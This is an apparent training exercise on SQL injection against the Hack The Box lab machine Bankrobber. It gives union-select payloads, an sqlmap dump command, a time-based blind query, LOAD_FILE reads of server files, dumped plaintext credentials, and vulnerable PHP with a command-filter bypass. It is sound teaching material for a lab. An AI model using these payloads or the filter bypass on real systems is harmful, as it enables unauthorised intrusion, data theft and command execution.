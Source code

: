 # Exercise: Using SQL injection on the Bankrobber box

In order to try out SQL injection, we will go back to the Hack The Box machine, Bankrobber. The XSS exploitation will gae us credentials for the admin user and with those, we can access the administration functionality of the site where you discover a user's search function that is SQL injectable.

![Search functionality available after logging in as admin on Bankrobber](../.gitbook/assets/2%20%289%29.png)

You know that it is SQL injectable through the following process: Simple numbers like 1 and 2 in the search query return users with those numbers as ids. Putting a single quote after the number results in an error that is returned saying that “There is a problem with your SQL syntax”. Adding the MySQL comment text 1'-- - into the search field then returns the user again.

Catching the entire search request in Burp \(turn on the Burp proxy option in FoxyProxy and click search to intercept the request in the Proxy tab, then send the request to the Repeater tab in Burp using CTL-R\) allows us to play with the SQL and determine that it is “union select” injectable. To determine the number of columns that the original query is returning, we can use the following injection and sending it via Burp repeater:

```sql
term=1'+order+by+1--+-
```

This returns one user from the request. Incrementing the order by clause to 4 returns an error “There is a problem with your SQL syntax” telling us that the number of columns in the original query was 3. This means you can now carry out a union select with the query string:

```sql
term=1'+union+select+'Field1','Field2',3--+-
```

This returns the output

```markup
HTTP/1.1 200 OK
Date: Thu, 01 Oct 2020 04:53:15 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Content-Length: 180
Connection: close
Content-Type: text/html; charset=UTF-8
<table width='90%'><tr><th>ID</th><th>User</th></tr>
 <tr>
 <td>1</td>
 <td>admin</td>
 </tr>
 <tr>
 <td>Field1</td>
 <td>Field2</td>
 </tr>
 </table>
```

Knowing that this is a union select injectable field and that the database is MySQL, you can dump the default database using the sqlmap command:

`sqlmap -r search.req --batch --dbms MySQL --technique U -p term --dump`

Without the parameters –dbms, --technique and -p sqlmap will determine these itself, but it is faster to provide them if you already know the answer.

sqlmap can carry out blind attacks by using timing techniques. These work by introducing a delay in the response if the answer to a query is true. An example of this given by OWASP for MySQL uses the BENCHMARK\(50000000,ENCODE\('MSG', 'by 5 seconds'\)\) statement to introduce an approximately 5 second pause. So the SQL statement

```sql
1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),
BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) 
FROM users WHERE user_id = 1
```

Will test if the first character in the password is ‘2’ \(assuming the password is in clear text\).

Whilst sqlmap can save time in obtaining information from SQL injection, it is always useful to know how to get the information manually. For example, in Bankrobber, you can list the databases in MariaDB with the command:

```sql
term=1'+union+select+'Field1',(SELECT group_concat(schema_name) 
FROM information_schema.schemata),3--+-
```

The response will include the databases

`bankrobber,information_schema,mysql,performance_schema,phpmyadmin,test`

The site, PayloadsAllTheThings has a SQL Injection Cheat Sheet that lists other commands for exploring databases.

We can list the tables in the database bankrobber with the following query:

```sql
term=1' union select 1,table_name,3 from INFORMATION_SCHEMA.TABLES 
where table_schema=database()-- -
```

This returns the tables: admin, balance, hold and users. We can list the columns in the users table using the command:

```sql
term=1' union select 1,group_concat(0x7c,column_name,0x7c),3 
from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

This returns the column names:

`|id|,|username|,|password|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|`

Finally, we could list the usernames and passwords for the users:

```sql
term=1' union select 1,group_concat(username,0x3a,password),3 from users-- -
```

Which returns:

`admin:Hopelessromantic,gio:gio`

Nothing particularly useful. One function that you can use in SQL is the LOAD\_FILE function which will allow us to include a local file into the response. We can try it with a well known Windows file c:\Windows\win.ini

```sql
term=1' union select 1,LOAD_FILE('c:\\Windows\\win.ini'),3-- -
```

And sure enough, this returns the contents of the file:

```sql
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If we enumerate the web directories with Gobuster we find for the root directory:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/\
    directory-list-2.3-medium.txt -x php,txt -u http://bankrobber.htb
<SNIP>
/index.php (Status: 302)
/img (Status: 301)
/login.php (Status: 302)
/register.php (Status: 200)
/user (Status: 301)
/admin (Status: 301)
/link.php (Status: 200)
/css (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/notes.txt (Status: 200)
/logout.php (Status: 302)
/licenses (Status: 403)
```

The file of particular interest is notes.txt which when we look at says:

```text
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The key bit of information is that the Xampp folder is in the default location. XAMPP is a product that packages up Apache, MariaDB, PHP and Perl to run web applications. MariaDB is compatible with MySQL and so is largely indistinguishable for our purposes.

Going back to the home page, there was another function called a We also know that the function called a Backdoorchecker that said it would allow the dir command but when you try it, you get an error message:

It's only allowed to access this function from localhost \(::1\).

This is due to the recent hack attempts on our server.

It would be worth looking at the code for this file which we can do using SQL injection

```sql
term=1' union select 1,LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),
    3-- -
```

This returns the code for backdoorchecker.php

```php
<?php
include('../link.php');
include('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(','&');
$good = "ls";
if(strtolower(substr(PHP_OS,0,3)) == "win"){
 $good = "dir";
}
if($username == "admin" && $password == "Hopelessromantic"){
if(isset($_POST['cmd'])){
 // FILTER ESCAPE CHARS
  foreach($bad as $char){
    if(strpos($_POST['cmd'],$char) !== false){
      die("You're not allowed to do that.");
    }
  }
 // CHECK IF THE FIRST 2 CHARS ARE LS
 if(substr($_POST['cmd'], 0,strlen($good)) != $good){
   die("It's only allowed to use the $good command");
 }
 if($_SERVER['REMOTE_ADDR'] == "::1"){
   system($_POST['cmd']);
 } else{
   echo "It's only allowed to access this function from localhost (::1).<br> 
     This is due to the recent hack attempts on our server.";
 }
 }
} else{
 echo "You are not allowed to use this function!";
}
?>
```

The key things about this code are that it checks that cookie has username with a value of "admin" and password with a value of "Hopelessromantic" \(11\). It then checks that the command does not include '&' which would allow us to run a second command after the 'dir' command v. It checks that the command starts with 'dir' so that we can't substitute other commands instead w. It checks if the request came from the local machine x. Finally, it executes the command y. The flaw here is is that although it is checking for bad characters that could manipulate the command and run other arbitrary commands, it still allows us to use the '\|' character which works in the same way as the '&' after a command.

We can now run a command but we still need to do this using server-side request forgery using the XSS vulnerability as we did earlier in the chapter.

